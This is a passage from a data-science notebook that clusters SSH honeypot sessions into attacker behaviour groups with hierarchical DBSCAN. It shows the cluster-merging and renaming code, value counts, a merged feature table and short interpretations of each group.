These clusters exhibit behavioral patterns typically associated with low-skill or partially automated activity, including irregular timing, higher error rates, and inconsistent command execution.

### **4. All other clusters remain unchanged**
If a base cluster does not appear in the `group_map`, it is preserved as-is.
This is achieved through the `fillna` call, which retains the original cluster label when
no fusion rule applies.

The resulting label, stored as `final_cluster`, represents the **behavioral group**
to which each session belongs after merging semantically similar clusters across levels.


In [65]:
group_map = {
    # Level 1: 0 and 1
    "L1_0": "G1_l1_0_1",
    "L1_1": "G1_l1_0_1",

    # Level 1: 2 and 3 + level 2: 0
    "L1_2": "G2_l1_2_3_l2_0",
    "L1_3": "G2_l1_2_3_l2_0",
    "L2_0": "G2_l1_2_3_l2_0",

    # Level 2: 2 + Level 3: 1 and 2
    "L2_2": "G3_l2_2_l3_1_2",
    "L3_1": "G3_l2_2_l3_1_2",
    "L3_2": "G3_l2_2_l3_1_2",
}

df_clusters['final_cluster'] = df_clusters['base_cluster'].map(group_map)
df_clusters['final_cluster'] = df_clusters['final_cluster'].fillna(df_clusters['base_cluster'])

df_clusters['final_cluster'].value_counts()


final_cluster
G1_l1_0_1         15448
G2_l1_2_3_l2_0     3458
L2_1                467
G3_l2_2_l3_1_2      389
L1_4                386
L3_0                130
NOISE               108
Name: count, dtype: int64

## 7.3 Converting fused cluster codes into human-readable behavioral labels

After applying the similarity-based fusion rules, each session receives a final cluster
identifier such as `"G1_l1_0_1"` or `"G4_l2_2_l3_1_2"`.
These identifiers are useful for internal processing, since they show exactly which
clusters and levels were merged, but they are **not intuitive** for interpretation,
reporting, or visual analysis.

To make the final taxonomy clearer and suitable for presentation, we map each fused
cluster code to a **human-readable behavioral label**, such as:

- **Massive_Automated_Bots**
- **IoT_Mirai_Like_Bots**
- **SemiHuman_or_ScriptKiddie_Activity**
- **Medium_Activity_and_FS_Probing_Bots**
- **Skilled_Human_Operators**
- **Other_Bot_Behaviour**
- **Noise_or_Outliers**

This translation is performed through the `name_map` dictionary.
Any fused cluster that does not appear in the dictionary retains its original label thanks
to the `fillna` call.

The new column `final_cluster_name` is the **definitive behavioral category** assigned
to each session, and it is the version that should be used in tables, figures, and the
final report.


In [66]:
# ==========================
# Final rename to human-readable cluster names
# ==========================

name_map = {
    "G1_l1_0_1": "Massive_Automated_Bots",
    "G2_l1_2_3_l2_0": "IoT_Mirai_Like_Bots",
    "G3_l2_2_l3_1_2": "SemiHuman_or_ScriptKiddie_Activity",
    "L1_4": "Medium_Activity_and_FS_Probing_Bots",
    "L3_0": "Skilled_Human_Operators",
    "L2_1": "Other_Bot_Behaviour",
    "NOISE": "Noise_or_Outliers"
}

df_clusters['final_cluster_name'] = df_clusters['final_cluster'].map(name_map)
df_clusters['final_cluster_name'] = df_clusters['final_cluster_name'].fillna(df_clusters['final_cluster'])

df_clusters[['final_cluster', 'final_cluster_name']].head(10)


,final_cluster,final_cluster_name
0,G1_l1_0_1,Massive_Automated_Bots
1,G1_l1_0_1,Massive_Automated_Bots
2,G1_l1_0_1,Massive_Automated_Bots
3,G2_l1_2_3_l2_0,IoT_Mirai_Like_Bots
4,G1_l1_0_1,Massive_Automated_Bots
5,G2_l1_2_3_l2_0,IoT_Mirai_Like_Bots
6,G1_l1_0_1,Massive_Automated_Bots
7,G1_l1_0_1,Massive_Automated_Bots
8,G1_l1_0_1,Massive_Automated_Bots
9,G2_l1_2_3_l2_0,IoT_Mirai_Like_Bots


## 7.4 Integrating final behavioral labels into the full feature dataset

The clustering process and the subsequent similarity-based fusion produce two key
outputs stored in `df_clusters`:

- **`final_cluster`** → the fused cluster identifier
- **`final_cluster_name`** → the human-readable behavioral category

However, the original dataset (`df`) contains all the session-level features used for
analysis (timing, command ratios, diversity metrics, etc.).
To prepare a complete and ready-to-use dataset, we merge the final behavioral labels
back into the full feature table.

The steps performed here are:

1. Convert the index of `df` into a proper `session_id` column for merging.
2. Join the full feature table (`df_full`) with the cluster results (`df_clusters`)
   using a left join to ensure all sessions are preserved.
3. The resulting `df_final` now contains:
   - all original engineered features
   - the base hierarchical cluster
   - the fused behavioral cluster
   - the final human-readable label

This dataset (`df_final`) represents the definitive output of the entire profiling pipeline
and is suitable for:
- descriptive analysis,
- modeling,
- visualization,
- and inclusion in the final report.


In [67]:
df_full = df.copy()              # df original with full features
df_full.index.name = 'session_id'
df_full = df_full.reset_index()

df_final = df_full.merge(
    df_clusters[['session_id', 'final_cluster', 'final_cluster_name']],
    on='session_id',
    how='left'
)

df_final.head()


,session_id,num_events,num_commands,session_duration,max_inter_command_time,mean_inter_command_time,std_inter_command_time,command_error_rate,file_transfer_ratio,login_error_rate,reconnaissance_ratio,exploit_ratio,unique_commands_ratio,command_diversity,final_cluster,final_cluster_name
0,00081b571122,78.0,23.0,31.249671,6.333993,1.160163,1.173813,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0,G1_l1_0_1,Massive_Automated_Bots
1,0076d693f7fd,78.0,23.0,32.132288,6.536506,1.194688,1.211933,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0,G1_l1_0_1,Massive_Automated_Bots
2,00aa3ae5d33a,78.0,23.0,36.995369,7.981335,1.388428,1.529704,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0,G1_l1_0_1,Massive_Automated_Bots
3,010ad96c3f21,16.0,7.0,68.448152,19.502649,3.257964,7.958238,0.428571,0.000000,0.0,0.000000,0.062500,0.285714,6.0,G2_l1_2_3_l2_0,IoT_Mirai_Like_Bots
4,012f382592c2,78.0,23.0,6.000740,0.534131,0.201693,0.094307,0.086957,0.173913,0.0,0.025641,0.064103,0.538462,19.0,G1_l1_0_1,Massive_Automated_Bots


## 7.5 Final Behavioral Cluster Overview

After merging hierarchical clusters and assigning human-readable labels, the final
distribution of attacker behavioral groups is as follows. This distribution reflects the
relative prevalence of each type of attacker observed in the SSH honeypot dataset.


In [68]:
df_final['final_cluster_name'].value_counts()

final_cluster_name
Massive_Automated_Bots                 15448
IoT_Mirai_Like_Bots                     3458
Other_Bot_Behaviour                      467
SemiHuman_or_ScriptKiddie_Activity       389
Medium_Activity_and_FS_Probing_Bots      386
Skilled_Human_Operators                  130
Noise_or_Outliers                        108
Name: count, dtype: int64



In [69]:
import seaborn as sns
import matplotlib.pyplot as plt

plt.figure(figsize=(10, 5))
sns.countplot(
    data=df_final,
    y='final_cluster_name',
    order=df_final['final_cluster_name'].value_counts().index
)
plt.title("Final Distribution of Attacker Behavioral Groups")
plt.xlabel("Count")
plt.ylabel("Behavioral Group")
plt.show()


## 7.6 Interpretation of Final Behavioral Groups

- **Massive_Automated_Bots**
  Extremely repetitive, high-frequency activity typical of large-scale botnets.

- **IoT_Mirai_Like_Bots**
  BusyBox/Mirai patterns, scanning behavior, and signatures of compromised IoT devices.

- **SemiHuman_or_ScriptKiddie_Activity**
  Irregular commands, higher error rate, partially manual or poorly automated activity.

- **Medium_Activity_and_FS_Probing_Bots**
  File system exploration and moderate scanning, usually mid-level automated tools.

- **Skilled_Human_Operators**
  Long sessions, diverse commands, low error rate, systematic reconnaissance and exploitation.

- **Other_Bot_Behaviour**
  Automated sessions not fitting major families.

- **Noise_or_Outliers**
  Sessions too incomplete or erratic to classify reliably.


## Final Remarks

This notebook implemented a hierarchical DBSCAN-based methodology for attacker
profiling in SSH honeypot environments. By progressively clustering high-density,
medium-density, and low-density behaviors, and merging semantically similar clusters
across levels, we constructed a comprehensive taxonomy of attacker types.

The final behavioral groups provide actionable insights for security operations:
automated botnets can be filtered or rate-limited, IoT-origin attacks can be isolated,
and human-driven intrusions can trigger escalation procedures. This structure forms
the basis for subsequent supervised learning models or operational threat intelligence.
